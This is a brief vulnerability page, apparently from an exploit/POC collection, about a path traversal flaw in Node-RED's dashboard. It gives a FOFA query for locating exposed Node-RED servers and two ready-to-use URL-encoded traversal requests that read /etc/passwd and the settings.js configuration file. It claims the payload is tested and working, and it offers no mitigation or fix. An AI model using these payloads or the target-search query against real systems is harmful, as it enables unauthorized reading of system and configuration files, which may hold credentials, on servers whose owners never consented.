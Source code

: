 <languages />

<center>
|:-:|:-:|
|![](Check.png "Check.png")|**The vulnerability has been verified**

* * * * *

<small>The EXP/POC/Payload on this page has been tested and available, and the vulnerability has been successfully reproduced.</small>|

</center>
Vulnerability Impact
--------------------

Node-RED

FOFA
----

    title="Node-RED"

POC
---

    /ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
    /ui_base/js/..%2f..%2f..%2f..%2fsettings.js

Reference
---------

<https://mp.weixin.qq.com/s/KRGKXAJQawXl88RBPTaAeg>